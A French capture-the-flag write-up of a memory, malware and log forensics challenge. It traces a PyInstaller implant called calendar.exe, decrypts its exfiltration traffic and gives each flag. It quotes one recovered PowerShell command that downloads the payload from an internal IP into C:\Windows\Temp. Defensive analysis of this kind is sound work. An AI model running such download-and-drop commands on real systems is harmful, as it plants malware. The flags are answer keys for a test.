

# Forensic Investigation
#### _Forensic_

### Préambule

Pour récupérer les fichiers nécessaires à ce challenge, nous devions nous connecter à un serveur SMB sur le compte guest
( avec comme mot de passe "guest"). Pour cela, nous pouvions utiliser sur Linux la commande suivante :
```smbclient \\\\10.0.30.30\\public -U guest```. Une fois connectés, nous avions accès au challenge.

### Étape n°1

_**Énoncé :** Your first objective is to find a suspicious process in the given memory dump.
Flag = FLAG{MD5(suspicious_process_name)} # 50 points
Once done, find where the suspicious file is located in the compromized workstation file tree.
Flag = FLAG{MD5(suspicious_file_path)} (Example: C:\...\suspicious_file) # 50 points_

Nous avions à notre disposition un dump mémoire. Tout d'abord, nous devions découvrir de quel OS venait ce dump, et quel profil utiliser pour analyser le dump avec **volatility**.
La commande ```imageinfo``` de volatility ne donnait rien, mais ```kdbgscan``` nous donnait l'output suivant :


Nous étions alors en mesure d'analyser le dump avec le profil **Win10x64_18362**. La première partie était de trouver un processus suspect, pour cela nous pouvions tout simplement utiliser la commande ```pstree``` de volatility et découvrir quelque chose d'étrange :


On voit ici que le processus **powershell.exe** a lancé le processus **calendar.exe**. De plus, le processus **powershell.exe** a été lancé par un utilisateur, à la main ou via un script, puisqu'il n'a plus de processus parent qui tourne encore. Ainsi, nous avons deviné que le processus malveillant était **calendar.exe**, nous avons calculé le md5 et bingo.

**FLAG :** FLAG{c5e5f9179b155f3e09f62d934d67fd64}

Pour trouver le path de calendar.exe, nous avons utilisé la commande ```strings memory_dump.vmem |grep 'calendar.exe'``` et nous avons obtenu un output contenant plusieurs fois le path **C:\Windows\Temp\calendar.exe**.

**FLAG :** FLAG{4d5f5772d68fe6ba983b346d114fc147}

### Étape n°2

_**Énoncé :** To save your time, one of our incident response team member extracted for you the suspicious file from the compromized workstation and stored it in an encrypted archive (the password on this one is the flag you found in the previous step). Reverse it and find the IP address and the port used by the suspicious file to communicate with the machine on the guest LAN.
Flag = FLAG{MD5(ip_address + ':' + port)} (Example: 1.2.3.4:1111) # 250 points_

Pour cette étape, nous avons extrait le fichier **calendar.exe** grâce à volatility, puis nous l'avons uploadé sur **VirusTotal**. Dans la section "Relations", nous avons trouvé les informations suivantes :


Le md5 de la première IP suivi du port n'était pas le bon flag, on s'est alors douté que la deuxième IP était la bonne, mais le port ne figurait pas parmi les informations à notre disposition. En cherchant encore sur VirusTotal, nous avons trouvé ce que nous cherchions :


**FLAG :** FLAG{f6b8d74b8d316d2961218458985c140d}

### Étape n°3

_**Énoncé :** Luckily, the communication between the two machines could be captured by a network traffic analyzer and saved in an encrypted archive (The password on this one is the flag you found in the previous step).
Thanks to a pcap and the reversed code, decrypt the communication and find the files that has been exfiltrated from the workstation.
Flag = FLAG{MD5(list_of_exfiltrated_files_sorted_in_alphabetical_order)} (Example: file_a.txt,file_b.txt,file_c.txt) # 300 points_

Pour cette partie, un fichier .pcapng nous était donné. En l'ouvrant, et en filtrant les communications avec l'IP trouvée à l'étape précédente, nous avons trouvé plusieurs flux TCP au contenu incompréhensible :


Après relécture de l'énoncé, nous avons décidé de reverse **calendar.exe**, car les communications entre le malware et l'IP étaient sûrement chiffrées. En utilisant la commande ```strings```, nous avons trouvé beaucoup de références à du python :


En se renseignant sur Internet, nous avons compris que le fichier était un executable généré par **PyInstaller**, et que nous pouvions extraire des fichiers intéressants de cet executable. Pour cela, nous avons utilisé l'outil [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor), qui nous a créé un dossier avec les fichiers suivants :


Le dossier **PYZ-00.pyz_extracted** contenant de nombreux fichiers .pyc nous a intéressé, puisque c'est lui qui contient les fichiers compilés qui sont exécutés par le programme, et notamment le fichier **calendar.pyc**. Nous avons utilisé l'outil [uncompyle6](https://pypi.org/project/uncompyle6/) pour transformer ce fichier en un fichier .py afin d'avoir accès au code. Malheureusement, le code de ce fichier était obfuscé :


Pour réussir à déchiffrer les trames de notre fichier .pcapng, nous avons dû comprendre (un minimum) le code de ce fichier.
Pour cela, nous avons tout d'abord cherché le mot-clé "socket", puisque **calendar.exe** se connecte à une IP. Nous sommes tombés sur la fonction suivante :


Après avoir supprimé toutes les lignes inutiles ajoutées par l'obfuscation, et donner des noms compréhensibles aux variables, nous avons obtenu ceci :


Nous avons pu voir que la fonction envoyait une string récupérée grâce à une fonction, que nous avons appelée ici "chiffrement", qui ressemblait à ceci :


Comme pour la fonction précédente, nous avons nettoyé cette fonction et sommes arrivés à ce résultat :


Nous avons remarqué que cette fonction utilisait une variable qui elle-même se créait à partir de nombreuses autres variables. Nous n'avons pas cherché à connaître sa valeur, car connaissant les opérations effectuées sur la chaîne de caractère, nous étions en mesure de créer une fonction de déchiffrement. En effet, la fonction chiffrement ajoutait une valeur fixe à chaque octet de la chaîne de caractère, il nous suffisait donc de soustraire chaque octet par cette même valeur :



Une fois la fonction créée, il nous suffisait de passer les différents flux TCP dans cette fonction et obtenir le nom des fichiers au début de chaque string : **ConsoleHost_history.txt, creds.txt, flood.txt, Fournisseurs.txt, osver.txt et patient_05_2021.txt**.

**FLAG :** FLAG{9182aca6367e7c00e80017679688232d}

### Étape n°4

_**Énoncé :** The last step of this challenge is to find how this malicious file has been injected in the workstation machine.
By searching in the event logs of the workstation machine stored in an encrypted archive (The password on this one is the flag you found in the previous step), you have to find the events showing:
The exact time when the malicious file has been executed in the machine and the identifier corresponding to this event.
Flag = FLAG{MD5(time_in_hh:mm:ss + ',' + event_identifier)} (Example: 18:45:22,1234) # 100 points
The exact time whle has been injected in the machine and the identifier corresponding to this event.
Flag = FLAG{MD5(time_in_hh:mm:ss + ',' + event_identifier)} (Example: 18:45:22,1234) # 250 points_

Pour cette dernière étape, on nous donnait trois fichiers : **application.evtx, security.evtx** et **system.evtx**. Ces fichiers, déjà vus pendant les qualifications, sont des journaux d'évènements Windows. Nous avons pu visualiser ces évènements en les ouvrant grâce à l'observateur d'évènements intégré à Windows.

Nous cherchions, pour la première partie, la première fois que le fichier malveillant a été lancé sur la machine. Le fichier **security.evtx** nous a particulièrement intéressé. Nous avons trié les évènements par ordre chronologique, puis nous avons cherché la string "calendar.exe". Nous sommes tombés sur un évènement répertoriant la création d'un processus, c'est exactement ce qui nous intéressait :


**FLAG :** FLAG{bb24bb02b16ae899e27e3420690041e7}

Pour le deuxième flag, nous savions que l'évènement que nous cherchions se trouvait avant celui de la première partie, puisque nous cherchions le moment où le virus avait été injecté sur l'ordinateur. Après avoir passé beaucoup de temps sur une fausse piste à cause de cette ligne trouvée grâce à la commande ```string``` sur le dump mémoire de départ : _Invoke-WebRequest 'http://172.16.64.1/calendar.exe' -OutFile 'C:\Windows\Temp\calendar.exe'_, nous sommes remontés dans les évènements antérieurs au lancement de calendar.exe. Nous avons découvert un évènement qui correspondait au branchement d'une clé USB sur l'ordinateur :


Nous avons pensé à raison que ça pouvait être l'origine de l'infection, puisqu'il n'y avait pas vraiment d'autres évènements louches et que le nom de "calendar.exe" n'apparaissait pas avant le lancement du processus, ainsi c'était tout-à-fait logique que le fichier vienne d'un support amovible.

**FLAG :** FLAG{1577d4aa90ee0707b39c7c2e3ac0df1b}
